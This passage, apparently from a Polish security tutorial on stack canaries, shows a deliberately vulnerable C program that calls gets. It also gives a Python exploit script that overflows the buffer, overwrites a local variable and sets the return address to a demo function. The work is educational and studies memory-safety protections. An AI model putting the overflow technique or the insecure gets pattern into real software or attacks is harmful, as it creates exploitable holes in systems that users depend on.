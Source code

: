 ### Zastosowanie  w praktyce <a name="zastosowanie_kanarkow"></a>

W celu prezentacji działania kanarków stosu napisałem prosty program w C. Jak widać poniżej, zastosowana została podatna funkcja `gets`, która nie sprawdza długości wczytywanego ciągu znaków. W kodzie dodatkowo umieściłem zmienną `some_variable` oraz funkcję `malicious`. Poniższy kod skompilowałem w dwóch wersjach za pomocą gcc w wersji 10.2.0. Za pierwszym razem z flagą `-fno-stack-protector`, a potem z `-fstack-protector` w celu dodania kanarków stosu. Moim zadaniem będzie napisanie takiego eksploita, aby nadpisać wartość zmiennej `some_variable` oraz wykonać funkcję `malicious`. 

<font size=1>

```c
#include <stdio.h>
#include <stdlib.h>

void malicious() { printf("Code flow changed!!!\n"); }

int main(int argc, char **argv) {
  volatile int some_variable;
  char buffer[64];

  some_variable = 7;
  gets(buffer);

  if (some_variable != 7) {
    printf("Local variable modified!!!\n");
  }

  return 0;
}
```

</font>

Poniższy eksploit generuje ciąg znaków, który dzięki przepełnieniu bufora powinien nadpisać zmienną `some_variable` wartością `variable` oraz przekierować wykonanie kodu do adresu `0x401156`, czyli miejsca, w którym znajduje się funkcja `malicious`. 

<font size=1>

```python
import sys
import struct

buffor = b'\x41'*64
padding = b'\x42'*12
variable = b'\x43'*4
rbp = b'\x44'*8
ret = 0x401156

sys.stdout.buffer.write(buffor)
sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(variable)
sys.stdout.buffer.write(rbp)
sys.stdout.buffer.write(struct.pack("Q", ret))
```
